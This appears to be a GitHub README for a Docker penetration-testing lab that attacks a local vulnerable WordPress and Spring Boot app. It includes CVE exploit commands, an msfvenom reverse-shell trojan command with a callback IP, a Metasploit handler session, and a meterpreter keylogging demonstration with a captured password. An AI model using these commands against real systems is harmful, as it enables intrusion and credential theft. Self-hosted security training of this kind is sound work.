

# hack-yourself
Sample project showing how to hack your own servers

> **Legal Disclaimer**:
> * Users are responsible for usage of the prepared setup
> * We does not encourage, condone, or orchestrate attempts to hack into other servers or any other illegal activities. The writings and instructions contained inside this website are entertainment / educational purposes only
> * We are not responsible if you break the law using techniques listed on this website. This setup is provided to users so that they may learn how to protect their own websites/web applications with similar vulnerabilities learned from the challenges

## Prerequisite

 * Docker for mac or download docker from [Docker](https://www.docker.com/)
 * Check if you have 10GB space available in your HD
 * Docker composer to make it easy to run at local.

## What's included



###  Official Kali Linux Docker
This Kali Linux Docker image provides a minimal base install of the latest version of the Kali Linux Rolling Distribution.
There are no tools added to this image, so you will need to install them yourself.
For details about Kali Linux metapackages, check the [homepage](https://www.kali.org/news/kali-linux-metapackages/)

#### Features in Kali Docker image
* Metasploit Framework (https://www.metasploit.com/)

### Local Wordpress for Evaluation

* Preconfigured WordPress 4.6
* MySQL Container

## Usage

# Setup Instructions
* Clone the repo from `https://github.com/holisticon/hack-yourself.git`.
* `./start.sh`
* Your environment is ready

# Setup your project locally for pentesting
(Its not good practice yo run the pentesting on the prod server or the unauthorized server, its not legal so I am suggesting this to run on local and these instruction will help you to setup the project at local server, try to make the same sever as your project has on public facing).

# Run the demo code
After running `./start.sh` your already inside the kali container and can run nikto etc. against the local wordpress:
```
nikto -C all -host blog_app
wpscan blog_app

```
Run attack against blog inside docker for [CVE-2017-8295](https://exploitbox.io/vuln/WordPress-Exploit-4-7-Unauth-Password-Reset-0day-CVE-2017-8295.html):
```
wp_2017-8295.sh <use-your-mail-domain-here> blog_app admin
```

Run attack for [CVE--2017-8046](https://pivotal.io/security/cve-2017-8046) against [SpringBoot App](https://github.com/holisticon/SpringBreakVulnerableApp) inside docker:
```
sb_2017-8046.sh sb_app:8080 calc.exe # or perl in linux
```

If you want to active try out what exploits can cause, give [metasploit](https://www.metasploit.com) a try. We first create a trojan which will be provided at `./docker/kali/share/trojan.exe`:
```
> msfvenom -p windows/meterpreter/reverse_tcp   — platform windows-a x86 -f exe LHOST="192.168.69.194" LPORT=8888 -o /share/trojan.exe
> msfconsole

Call trans opt: received. 2-19-98 13:24:18 REC:Loc

     Trace program: running

           wake up, Neo...
        the matrix has you
      follow the white rabbit.

          knock, knock, Neo.

                        (`.         ,-,
                        ` `.    ,;' /
                         `.  ,'/ .'
                          `. X /.'
                .-;--''--.._` ` (
              .'            /   `
             ,           ` '   Q '
             ,         ,   `._    \
          ,.|         '     `-.;_'
          :  . `  ;    `  ` --,.._;
           ' `    ,   )   .'
              `._ ,  '   /_
                 ; ,''-,;' ``-
                  ``-..__``--`

                             https://metasploit.com


       =[ metasploit v4.16.58-dev                         ]
+ -- --=[ 1769 exploits - 1007 auxiliary - 307 post       ]
+ -- --=[ 537 payloads - 41 encoders - 10 nops            ]
+ -- --=[ Free Metasploit Pro trial: http://r-7.co/trymsp ]

msf > use multi/handler
msf exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf exploit(multi/handler) > set LPORT 8888
LPORT => 8888
msf exploit(multi/handler) > set LHOST "0.0.0.0"
LHOST => 192.168.69.20
msf exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 0.0.0.0:8888
```
You can now run the trojan.exe on a windows computer (ensure to disable antivirus software ;) ) and we will then see in msf the connection:
```
[*] Sending stage (179779 bytes) to 172.27.0.1
[*] Meterpreter session 1 opened (172.27.0.4:8888 -> 172.27.0.1:44510) at 2018-06-03 10:22:35 +0000
```
It will then start a meterpreter session and you can use several commands to get more into your "victim":
```
meterpreter > help
...
Stdapi: System Commands
=======================

    Command       Description
    -------       -----------
    clearev       Clear the event log
    drop_token    Relinquishes any active impersonation token.
    execute       Execute a command
    getenv        Get one or more environment variable values
    getpid        Get the current process identifier
    getprivs      Attempt to enable all privileges available to the current process
    getsid        Get the SID of the user that the server is running as
    getuid        Get the user that the server is running as
    kill          Terminate a process
    localtime     Displays the target system's local date and time
    pgrep         Filter processes by name
    pkill         Terminate processes by name
    ps            List running processes
    reboot        Reboots the remote computer
    reg           Modify and interact with the remote registry
    rev2self      Calls RevertToSelf() on the remote machine
    shell         Drop into a system command shell
    shutdown      Shuts down the remote computer
    steal_token   Attempts to steal an impersonation token from the target process
    suspend       Suspends or resumes a list of processes
    sysinfo       Gets information about the remote system, such as OS


Stdapi: User interface Commands
===============================

    Command        Description
    -------        -----------
    enumdesktops   List all accessible desktops and window stations
    getdesktop     Get the current meterpreter desktop
    idletime       Returns the number of seconds the remote user has been idle
    keyscan_dump   Dump the keystroke buffer
    keyscan_start  Start capturing keystrokes
    keyscan_stop   Stop capturing keystrokes
    screenshot     Grab a screenshot of the interactive desktop
    setdesktop     Change the meterpreters current desktop
    uictl          Control some of the user interface components


Stdapi: Webcam Commands
=======================

    Command        Description
    -------        -----------
    record_mic     Record audio from the default microphone for X seconds
    webcam_chat    Start a video chat
    webcam_list    List webcams
    webcam_snap    Take a snapshot from the specified webcam
    webcam_stream  Play a video stream from the specified webcam
...
```

For example you can start capturing keystrokes and dump them after a while:
```
meterpreter > keyscan_start
Dumping captured keystrokes...


meterpreter > keyscan_dump
Dumping captured keystrokes...
ebay<CR>
superfunguy<Tab><UMSCHALT>My<UMSCHALT>Very<UMSCHALT>Password<CR>
```

# Troubleshooting
-- To be added

# Want to contribute?
###  Development
* Please fork and raise a PR to review
### Issues
* Please create an issue under https://github.com/holisticon/hack-yourself/issues


## Contributors
* **Martin Reinhardt** *Technical Architect* - [HyperY2K](http://github.com/hypery2k/)
* **Ravindra Singh**  *Technical Architect* - [RavindraSingh22](http://github.com/ravindrasingh22/)


## Update dependency graph

```
docker run --rm -it --name dcv -v $(pwd):/input pmsipilot/docker-compose-viz render -m image docker-compose.yml &&\
  mv docker-compose.png docs/images/
```
